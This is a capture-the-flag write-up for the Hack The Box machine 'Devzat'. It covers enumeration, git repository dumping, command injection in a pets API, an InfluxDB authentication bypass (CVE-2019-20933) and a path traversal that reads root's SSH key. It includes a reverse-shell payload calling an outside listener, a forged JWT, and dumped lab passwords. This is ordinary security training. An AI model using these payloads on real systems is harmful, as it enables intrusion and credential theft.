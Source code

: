 # [Devzat](https://app.hackthebox.com/machines/devzat)

```bash
nmap -p- --min-rate 5000 10.10.11.118 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80,8000 10.10.11.118 -Pn
```

![alt text](img/image-1.png)

From nmap scan result, I see that ip address is resolved into `devzat.htb` domain, that's why I add this into `/etc/hosts` file for resolving purposes.


Our web application is like below.

![alt text](img/image-2.png)


Let's do `Subdomain Enumeration` via `wfuzz` command.
```bash
wfuzz -u http://devzat.htb -H 'Host: FUZZ.devzat.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```

![alt text](img/image-3.png)


Let's add `pets.devzat.htb` domain into `/etc/hosts` file.

I looked at web application.

![alt text](img/image-4.png)


Let's do `nmap` scan for `pets.devzat.htb` application's port `80`.

```bash
nmap -A -sC -sV -p80 pets.devzat.htb -Pn
```

![alt text](img/image-5.png)


I find `.git` directory, let's dump this via [git-dumper](https://github.com/arthaud/git-dumper).

```bash
python3 git_dumper.py http://pets.devzat.htb/.git/ /home/kali/Desktop/pets_devzat_htb/
```

![alt text](img/image-6.png)


Let's make `Source Code` analysis.


I looked at `addPet` function which I tested via adding cat previously on website, is vulnerable to `Input Validation`.

![alt text](img/image-7.png)


It means, that I can inject what value, I want here.

Let's turn on our `owasp zap` and start `API` pentesting.


Our `POST` request to `API` is like below.

![alt text](img/image-8.png)


Let's inject some payloads into `species` parameter. I add `Directory Traversal` payload into here.

![alt text](img/image-9.png)


I see result of my payload as below.

![alt text](img/image-10.png)


Let's inject `reverse shell` payload into here.
```bash
curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "dr4ks",  "species": "cat; bash -c \"bash -i >& /dev/tcp/10.10.14.18/1337 0>&1\"" }' -H "'Content-Type': 'application/json'"
```

![alt text](img/image-24.png)

Hola, I got reverse shell from port `1337`.

![alt text](img/image-12.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-13.png)



For `Privilege Escalation` vector, I just run `netstat -ntpl` to see open ports on victim machine.

![alt text](img/image-14.png)


Here, I see port `8086` is open and `curl` this port.
```bash
curl -v http://127.0.0.1:8086/
```

![alt text](img/image-15.png)


That's `Influxdb` and version is `1.7.5`.


I found publicly knwon exploit for this version of `Influxdb` is that [CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933).


It means we need to create `JWT` token by using `username` and `exp` fields via `HS256` algorithm as below.

We can do this via `Python` shell.

```bash
import jwt
import time
jwt.encode({"exp": time.time()+10000, "username": "admin"}, "", algorithm="HS256")
```

![alt text](img/image-16.png)


**Note:** Don't forget change `username` field into `admin` value.




Let's use this `JWT` token while making request to `Influxdb` for `Authorization` HTTP request header as below.
```bash
curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer {jwt}"
```

![alt text](img/image-17.png)


I just need to use `devzat` database and `user` table on here. We need to send query to this table to dump all user's data.
```bash
curl -G --data-urlencode "q=select * from \"user\"" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
```

![alt text](img/image-18.png)


I dump usernames and their passwords as below.

```bash
wilhelm: WillyWonka2021
catherine: woBeeYareedahc7Oogeephies7Aiseci
charles: RoyalQueenBee$
```


Let's check credentials of `catherine` user.


user.txt

![alt text](img/image-19.png)


On `/var/backups` folder, I find two `.zip` files and download both of them into my machine.

First, we need to open http.server.
```bash
python3 -m http.server --bind 10.10.11.118 1337
```
![alt text](img/image-21.png)

Second, we need to use `wget` command to download these files.
```bash
wget http://10.10.11.118:1337/devzat-main.zip
wget http://10.10.11.118:1337/devzat-dev.zip
```

![alt text](img/image-20.png)


I `unzip` the file called `devzat-dev.zip` and find a file called `commands.go` which have method called `fileCommand()` leak password.

![alt text](img/image-22.png)

Password: CeilingCatStillAThingIn2021?


From `victim` machine, we need to connect into `8443` port via `ssh`.

It is `devbot`.


**Reminder!** To work with `devbot`, you need to make stable connection, I mean it shouldn't be shell which you got from `reverse shell`. For that reason, add your public key into victim machine and connect into victim machine by using your private key via `ssh` command to get persistent shell.

```bash
ssh -p 8443 dr4ks@localhost
```

![alt text](img/image-23.png)

I look at `commands` for my user that can run or not.

![alt text](img/image-11.png)


Let's use `/file` option for this bot and use our leaked password.


root.txt

![alt text](img/image-25.png)


Let's take `consistent` shell, for this, we need to grab private key (id_rsa) file of root user.
```bash
/file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
```

![alt text](img/image-26.png)


I got persistent shell, finally.

![alt text](img/image-27.png)